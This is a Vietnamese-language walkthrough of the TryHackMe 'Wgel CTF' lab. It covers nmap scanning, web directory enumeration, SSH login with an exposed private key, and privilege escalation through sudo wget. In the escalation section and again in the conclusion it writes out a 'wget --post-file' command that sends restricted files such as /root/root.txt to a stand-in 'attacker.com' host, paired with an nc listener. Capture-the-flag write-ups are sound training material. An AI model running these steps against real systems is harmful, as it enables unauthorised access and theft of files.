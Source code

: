 TryHackMe - Wgel CTF Writeup  
Tools used:  
Nmap  
1.Dirsearch  
2.Gobuster  
3.GTFOBins  
Scanning and Enumeration  

**LƯU Ý:** Địa chỉ IP của máy sẽ được biểu diễn là `10.10.x.x` vì TryHackMe cấp IP khác nhau cho từng người dùng.  

Giả sử bạn đã có IP của máy, hãy chạy **4 lệnh Nmap** để quét và thu thập thông tin hệ thống.  

Half TCP Scan (Quét TCP một nửa bắt tay)
```
nmap -n -sS -vv -T5 -p 1-20000 10.10.x.x -oN Half-TCP.txt
```
Quét phiên bản / Banner Grabbing  
Sử dụng Nmap để lấy thông tin phiên bản dịch vụ chạy trên các cổng.  
```
nmap -sV --version-all -vv -T5 -p 22,80 10.10.x.x -oN Version-scan.txt
```
Aggressive Scan  
Thực hiện quét nâng cao (Aggressive Scan) để vừa thu thập service, version vừa chạy các script cơ bản.  
```
nmap -A -vv -T5 10.10.x.x -oN Aggressive-scan.txt
```
Nmap NSE Vulnerability Scan  
Dùng Nmap với các script NSE để phát hiện lỗ hổng của dịch vụ trên port. 
```
nmap --script vuln -p 80 10.10.x.x -oN nse-vuln.txt
```
Điểm quan trọng ở đây chính là **Half TCP Scan** và **NSE Scan**:  
- Với **Half TCP Scan**, bạn sẽ biết được bao nhiêu port đang mở.  
- Với **NSE Scan**, bạn sẽ có được một “phác thảo” sơ bộ về những lỗ hổng mà port/dịch vụ đó có thể tồn tại.

Enumeration Website  

Từ đây, bên ngoài hệ thống không còn gì nhiều để khai thác.  
Chuyển trọng tâm sang website chạy trên **port 80**.  


Khi truy cập website, bạn sẽ thấy trang mặc định Apache2 Ubuntu.  
Hãy bỏ qua trang đó và bắt đầu enumerate website ngay.  


Bạn có thể dùng **Dirsearch** hoặc **Gobuster** (mình hay dùng Gobuster).  

Dirsearch
```
dirsearch -u http://10.10.x.x/ -t 120
```
Gobuster
```
gobuster dir -u http://10.10.x.x/ -x /path/to/wordlist/ -X /path/to/extension/wordlist -t 120
```
Lý do mình để danh sách extension trong file riêng là để chắc chắn không bỏ sót loại file nào.

Sau khi enumerate, thư mục duy nhất bạn thấy được truy cập là: http://10.10.x.x/sitemap/
Truy cập vào đó, bạn sẽ thấy một trang web.  

Quay lại bước đầu tiên, bạn nên tiếp tục enumerate website bằng **Dirsearch** hoặc **Gobuster** để tìm các file và thư mục có thể truy cập.  
Trong lúc chạy Dirsearch hoặc Gobuster, hãy kiểm tra **source code HTML** của `http://10.10.x.x/sitemap/` vì trong đó có chứa **một username**.  
Sau khi hoàn thành quét với Dirsearch hoặc Gobuster, bạn sẽ tìm thấy thư mục: /.ssh/
Lưu file trong đó và dùng nó để đăng nhập SSH.  


SSH login và Leo thang đặc quyền  

Sau khi đăng nhập thành công qua SSH, hãy lấy ngay **user flag** (thường nằm ở thư mục `/Documents/`).  

Privilege Escalation 
Nếu bạn chạy lệnh: 
```
sudo -l
```
Bạn sẽ thấy rằng user được phép chạy wget với đặc quyền cao.
Khai thác (Privilege Escalation)

Để khai thác, chạy lệnh sau:
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
--post-file : tuỳ chọn này sẽ gửi toàn bộ nội dung file (ví dụ: /root/root.txt) đến địa chỉ IP + port bạn chỉ định thông qua HTTP POST request.

LFILE : thay bằng đường dẫn của file mà bạn muốn đọc.

URL : thay bằng địa chỉ IP và port của máy tấn công (nơi bạn mở listener).


Trên máy tấn công (Kali)
Mở listener để chờ dữ liệu:
```
nc -lvnp 9999
```
```
ncat -lvnp 9999
```
Sau khi thiết lập listener, nhấn Enter và bạn sẽ thấy **root flag** được gửi về máy tấn công.  

Kết luận  

Nếu có điều gì chúng ta học được hôm nay, thì đó là:  
Ta có thể đọc và gửi nội dung của một file về máy của mình thông qua **HTTP POST request** bằng cách sử dụng lệnh:  
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
Chúng ta không thực sự leo thang đặc quyền bằng `wget`, tuy nhiên chúng ta đã **lợi dụng/abuse quyền SUID** để đọc được nội dung của các file bị hạn chế.  
